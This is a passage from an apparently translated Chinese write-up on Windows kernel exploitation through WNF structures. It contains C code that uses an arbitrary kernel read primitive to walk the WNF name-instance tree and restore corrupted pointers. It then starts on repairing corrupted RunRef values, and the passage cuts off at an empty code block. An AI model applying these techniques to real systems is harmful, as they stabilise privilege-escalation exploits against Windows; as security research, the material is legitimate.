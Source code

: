 虽然我们可以使用 WNF 的相对读写功能来恢复，但由于我们已经通过 API 实现了任意读写，因此我们可以实现一个函数，利用之前保存的 ScopeInstance 指针来搜索目标_WNF_NAME_INSTANCE  
对象的 StateName。  
  
其可视化表示如下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP86oNEoplicjnxib4fKFaxJnMd3icBzeDkypNsrvBXicszf9qaytzlmIjzkVXrWrO01uUiaGI7KickVGrA/640?wx_fmt=png&from=appmsg "")  
  
以下是示例代码：  
```
/*** This function returns back the address of a _WNF_NAME_INSTANCE looked up by its internal StateName* It performs an _RTL_AVL_TREE tree walk against the sorted tree of _WNF_NAME_INSTANCES. * The tree root is at _WNF_SCOPE_INSTANCE+0x38 (NameSet)**/QWORD* FindStateName(unsigned __int64 StateName){    QWORD* i;        // _WNF_SCOPE_INSTANCE+0x38 (NameSet)    for (i = (QWORD*)read64((char*)BackupScopeInstance+0x38); ; i = (QWORD*)read64((char*)i + 0x8))    {        while (1)        {            if (!i)                return0;            // StateName is 0x18 after the TreeLinks FLINK            QWORD CurrStateName = (QWORD)read64((char*)i + 0x18);            if (StateName >= CurrStateName)                break;            i = (QWORD*)read64(i);        }        QWORD CurrStateName = (QWORD)read64((char*)i + 0x18);        if (StateName <= CurrStateName)            break;     }    return (QWORD*)((QWORD*)i - 2);}
```  
  
在获取到 _WNF_NAME_INSTANCE 后，我们就可以恢复原始的 StateData 指针。  
### RunRef 恢复  
  
接下来遇到的崩溃问题与我们可能在获取无边界 _WNF_STATE_DATA  
 的过程中损坏了多个 _WNF_NAME_INSTANCE  
 的 RunRef 有关。当调用   
ExReleaseRundownProtection[9]  
 时，如果存在无效值，将会导致如下崩溃：  
```
```